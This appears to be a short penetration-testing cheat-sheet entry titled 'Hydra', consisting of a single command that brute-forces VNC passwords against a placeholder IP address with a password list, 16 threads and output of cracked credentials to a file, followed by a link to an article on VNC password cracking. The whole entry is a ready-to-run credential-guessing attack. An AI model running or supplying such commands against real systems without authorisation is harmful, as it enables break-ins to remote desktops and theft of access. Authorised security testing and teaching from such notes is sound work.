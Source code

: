 # Hydra

`$ hydra -vvv -P passwords.lst -e nsr -t 16 <IP> vnc -o vnc_creds.txt`

---
## References

- [Hacking Articles: Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)